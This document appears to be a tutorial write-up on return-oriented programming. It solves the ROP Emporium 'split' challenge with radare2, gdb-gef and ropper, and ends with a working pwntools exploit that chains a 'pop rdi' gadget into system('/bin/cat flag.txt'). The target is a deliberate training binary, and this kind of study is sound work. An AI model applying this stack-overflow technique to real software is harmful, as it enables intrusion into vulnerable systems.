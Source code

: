 # ROP or Return Oriented Programming


ROP is a technique used to bypass the non-exeutable stack while using the available gadgets from the associated binaries i.e. opcodes ending with `ret`. See "tools". 

# ROP 32bit

Let's take the binary `split` from ROP-Emporium and pwn it:-

```r
robin@oracle:~/ROP-Emporium$ gdb-gef -q split
Reading symbols from split...(no debugging symbols found)...done.
GEF for linux ready, type `gef' to start, `gef config' to configure
79 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 1 command could not be loaded, run `gef missing` to know why.
gef➤  checksec
[+] checksec for '/home/robin/ROP-Emporium/split'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
gef➤  
```

It has `NX` enabled so we will use Return Oriented Programming technique to get a shell. Let's reverse engineer it first:-

Using `radare2` first:-

```r
robin@oracle:~/ROP-Emporium$ r2 -AAAA split
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Emulate code to find computed references (aae)
[x] Analyze consecutive function (aat)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[0x00400650]> afl
0x00400000    2 64           fcn.rip
0x00400041    1 7            fcn.00400041
0x00400048    1 164          fcn.00400048
0x004005a0    3 26           sym._init
0x004005d0    1 6            sym.imp.puts
0x004005e0    1 6            sym.imp.system
0x004005f0    1 6            sym.imp.printf
0x00400600    1 6            sym.imp.memset
0x00400610    1 6            sym.imp.__libc_start_main
0x00400620    1 6            sym.imp.fgets
0x00400630    1 6            sym.imp.setvbuf
0x00400640    1 6            sub.__gmon_start___248_640
0x00400650    1 41           entry0
0x00400680    4 50   -> 41   sym.deregister_tm_clones
0x004006c0    3 53           sym.register_tm_clones
0x00400700    3 28           sym.__do_global_dtors_aux
0x00400720    4 38   -> 35   entry1.init
0x00400746    1 111          sym.main
0x004007b5    1 82           sym.pwnme
0x00400807    1 17           sym.usefulFunction
0x00400820    4 101          sym.__libc_csu_init
0x00400890    1 2            sym.__libc_csu_fini
0x00400894    1 9            sym._fini
[0x00400650]> pdf @sym.pwnme
/ (fcn) sym.pwnme 82
|   sym.pwnme ();
|           ; var int local_20h @ rbp-0x20
|              ; CALL XREF from 0x0040079f (sym.main)
|           0x004007b5      55             push rbp
|           0x004007b6      4889e5         mov rbp, rsp
|           0x004007b9      4883ec20       sub rsp, 0x20
|           0x004007bd      488d45e0       lea rax, qword [local_20h]
|           0x004007c1      ba20000000     mov edx, 0x20               ; 32 ; size_t n
|           0x004007c6      be00000000     mov esi, 0                  ; int c
|           0x004007cb      4889c7         mov rdi, rax                ; void *s
|           0x004007ce      e82dfeffff     call sym.imp.memset         ; void *memset(void *s, int c, size_t n)
|           0x004007d3      bfd0084000     mov edi, str.Contriving_a_reason_to_ask_user_for_data... ; 0x4008d0 ; "Contriving a reason to ask user for data..." ; const char * s
|           0x004007d8      e8f3fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x004007dd      bffc084000     mov edi, 0x4008fc           ; const char * format
|           0x004007e2      b800000000     mov eax, 0
|           0x004007e7      e804feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x004007ec      488b159d0820.  mov rdx, qword [obj.stdin]  ; [0x601090:8]=0 ; FILE *stream
|           0x004007f3      488d45e0       lea rax, qword [local_20h]
|           0x004007f7      be60000000     mov esi, 0x60               ; '`' ; 96 ; int size
|           0x004007fc      4889c7         mov rdi, rax                ; char *s
|           0x004007ff      e81cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x00400804      90             nop
|           0x00400805      c9             leave
\           0x00400806      c3             ret
[0x00400650]> pdf @sym.usefulFunction
/ (fcn) sym.usefulFunction 17
|   sym.usefulFunction ();
|           0x00400807      55             push rbp
|           0x00400808      4889e5         mov rbp, rsp
|           0x0040080b      bfff084000     mov edi, str.bin_ls         ; 0x4008ff ; "/bin/ls" ; const char * string
|           0x00400810      e8cbfdffff     call sym.imp.system         ; int system(const char *string)
|           0x00400815      90             nop
|           0x00400816      5d             pop rbp
\           0x00400817      c3             ret
[0x00400650]> izzq~sh
0x11 10 9 .shstrtab
0x44 10 9 .gnu.hash
[0x00400650]> izzq~cat
0x601060 18 17 /bin/cat flag.txt
[0x00400650]> 
```

>izzq~<str> is used to find the address of a specific string in that ELF.

As this is X86-64 bit binary, according to calling convention of x86-64 the arguments provided into the function as parameter is stored in register. The first argument is stored in `rdi`, I'd recommend reading on calling convention.

So, let's find the buffer offset, shall we?

```r
robin@oracle:~/ROP-Emporium$ gdb-gef -q split
Reading symbols from split...(no debugging symbols found)...done.
GEF for linux ready, type `gef' to start, `gef config' to configure
79 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 1 command could not be loaded, run `gef missing` to know why.
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /home/robin/ROP-Emporium/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.


-- snip --


──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "split", stopped, reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400806 → pwnme()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x0000000000400806 in pwnme ()
gef➤  pattern search faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala
[+] Searching 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala'
[+] Found at offset 40 (big-endian search) 
gef➤  
```
Ah, easier than manual find.

So, let's find a gadget as we already know that `/bin/cat flag.txt` and the symbol `system` is present let's find the `pop rdi; ret;` so the string would be provided to system for execution.
Ropper to the rescue:-

```s
robin@oracle:~/ROP-Emporium$ ropper --file split --search 'pop rdi'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x0000000000400883: pop rdi; ret; 
```

Now, our payload would be `padding + pop_rdi + bin_cat + system`, breaking it down:-

First `padding` offset to the stack pointer, now the gadget `pop rdi; ret;` as the `/bin/cat flag.txt` will be stored in rdi register we will just provide the `system` address and we are done.

Let's craft the exploit:-

```python
from pwn import *

p = process("./split")

payload = "A"*40  # padding 
payload += p64(0x400883) # pop_rdi
payload += p64(0x601060) # /bin/cat flag.txt
payload += p64(0x400810) # system

p.recvuntil(">") # This will recieve wait we reach this
p.sendline(payload) # Sending the payload afterwards as input
p.interactive()
```

```s
robin@oracle:~/ROP-Emporium$ echo "We got it" > flag.txt
robin@oracle:~/ROP-Emporium$ python split_exploit.py 
[+] Starting local process './split': pid 12495
[*] Switching to interactive mode
 We got it
[*] Got EOF while reading in interactive
$ 
[*] Process './split' stopped with exit code -11 (SIGSEGV) (pid 12495)
[*] Got EOF while sending in interactive
robin@oracle:~/ROP-Emporium$ 
```

Poof, we got it.

